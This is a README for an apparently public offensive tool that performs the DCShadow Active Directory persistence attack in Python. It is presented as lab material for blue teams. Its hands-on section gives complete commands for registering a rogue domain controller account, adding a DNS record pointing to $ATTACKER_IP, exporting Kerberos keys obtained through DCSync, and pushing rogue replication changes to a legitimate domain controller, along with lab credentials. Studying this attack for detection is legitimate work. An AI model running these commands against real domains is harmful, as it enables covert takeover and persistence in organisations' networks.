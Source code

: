 > [!WARNING]
> DO NOT RUN IN PRODUCTION. This is meant for lab testing, for blue teams to work on identifying IoCs, event types, and behavior.
> Also, this tool is provided as-is. No support is planned apart from standard review on pull requests you may want to create. 
> Don't run this from a Windows host. Do it from linux, or from a VM (to avoid RPC services conflicts).

# Theory

This project is meant to be a pure-python alternative to Mimikatz's dcshadow technique. This includes a custom Impacket with modified `crypto`, `gssapi` and `drsuapi` among other things. 

[DCShadow](https://www.thehacker.recipes/ad/persistence/dcshadow/) is a powerful persistence technique that could be considered as a transport for other techniques such as [SID history](https://www.thehacker.recipes/ad/persistence/sid-history), [KRBTGT RBCD](https://www.thehacker.recipes/ad/persistence/kerberos/delegation-to-krbtgt), [ACE abuse](https://www.thehacker.recipes/ad/persistence/dacl), and more.

This tool could be a foundation for a more versatile AD pertistence framework, that could be used by our community to raise our global maturity on the matter.

This tool was tested on [GOAD](https://github.com/Orange-Cyberdefense/GOAD).

# Hands-on

## 0. Install

```bash
python3 -m venv venv
source ./venv/bin/activate
pip3 install -r ./requirements.txt
pip3 install ./impacket
```

## 1. Create machine account

This machine will be registered as a domain controller for the duration of the replication, and will be unregistered at the end.

```bash
venv/bin/addcomputer.py -computer-name 'fake701$' -computer-pass '123soleil!' -method LDAPS -dc-host "kingslanding.sevenkingdoms.local" -dc-ip "192.168.10.10" -domain-netbios "sevenkingdoms" "sevenkingdoms.local"/"tyron.lannister":"Alc00L&S3x" -debug
```

> [!WARNING]
> adcomputer.py is modified to set `msDS-SupportedEncryptionTypes` to `0x1f`. Latest tests seem to raise a constraint violation.
> ```
> [+] Impacket Library Installation Path: /workspace/adpersist/venv/lib/python3.11/site-packages/impacket
> Traceback (most recent call last):
>  File "/workspace/adpersist/venv/bin/addcomputer.py", line 248, in run_ldaps
>    raise Exception(str(ldapConn.result))
> Exception: {'result': 19, 'description': 'constraintViolation', 'dn': '', 'message': '0000207C: AtrErr: DSID-03153410, #1:\n\t0: 0000207C: DSID-03153410, problem 1005 (CONSTRAINT_ATT_TYPE), data 0, Att 907ab (msDS-SupportedEncryptionTypes)\n\x00', 'referrals': None, 'type': 'addResponse'}
> [-] {'result': 19, 'description': 'constraintViolation', 'dn': '', 'message': '0000207C: AtrErr: DSID-03153410, #1:\n\t0: 0000207C: DSID-03153410, problem 1005 (CONSTRAINT_ATT_TYPE), data 0, Att 907ab (msDS-SupportedEncryptionTypes)\n\x00', 'referrals': None, 'type': 'addResponse'}
> ```
> For now, use the regular addcomputer.py script from Impacket, and modify `msDS-SupportedEncryptionTypes` manually through ADSI edit.

## 2. DNS entry for the machine

This is needed for the legit DC to know how to reach the rogue DC and avoid `ERROR_DS_DNS_LOOKUP_FAILURE` errors.

```bash
dnstool.py -u "sevenkingdoms.local"/"tyron.lannister" -p "Alc00L&S3x" --record 'fake701' --action add --data "$ATTACKER_IP" "kingslanding.sevenkingdoms.local"
```

> [!TIP]
> If the command doesn't work for some reason, add the DNS entry manually through the DNS tools on the domain controller.

## 3. Rogue DC credentials

When we started developping this tool, we were using hardcoded credentials in an .env file, loaded in the `gss_kerberos_ap_req` function in the `dcshadow/utils/server/RpcServer.py` file.

This clearly needs an upgrade. The password of the rogue DC account could be passed as CLI argument and kerberos keys calculated. Krbrelayx does that already, dacledit.py as well, it needs copy-pasting.

For now you need to export the Kerberos keys as environment variables.

It should look like this:

```
export RC4=652c1be004ef335aa218cfed8e9297fc
export AES128=710b676a1fec1c68edc44b759aace44a
export AES256=bc7564c2e7a2bc740c277ec39f8c5d81e03df8001b7d670f5b46c177242a8bbc
```

Those keys can be retrieve with through a [DCSync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) attack.

## 4. DCShadow (JSON file)

```bash
python3 dcshadow.py --json repl.json --domain "sevenkingdoms.local" --user "cersei.lannister" --password "il0vejaime" --dc-ip "192.168.10.10" --legit-dc-fqdn "kingslanding.sevenkingdoms.local" --rogue-dc-name "fake701"
```

> [!TIP]
> In this case, a `repl.json` file is used to specify the target objects and attributes. Alternatively, the tool supports inline options (e.g., `--object`, `--attribute`, and `--value`). 

# Common errors

## DRSReplicaAdd: timed out

If the DRSReplicaAdd times out, it probably is a networking/firewall issue on the machine running dcshadow.py (the rogue DC), that's probably not allowing incoming trafic on 135/TCP (epmapper) and 1337/TCP (or dynamic port if implemented in the future, for drsuapi)

## DRSReplicaAdd: rpc_s_access_denied

You'd need to run Wireshark on the legit domain controller, but the most probably root cause is you're trying to run this on a Windows machine, meaning when the legit DC asks your rogue DC's epmapper for the port of the drsuapi endpoint, the answer is empty since it's your own windows machine's epmapper that's responding and not our custom one. 

# Credits

This project wouldn't have been possible without the immense help of [Alessandro Iandoli "MrAle98"](https://github.com/MrAle98), a talented researcher met during the development. Thank you Alessandro!

Credits go to Benjamin Delpy and Vincent Letoux for the initial discovery, talks, and implementation in Mimikatz.

I'd like to thank Volker as well, who took part in the early development.

Thanks to Dramelac for the help in going for PoC to modular project, a foundation for a future framework, if it ever goes there.
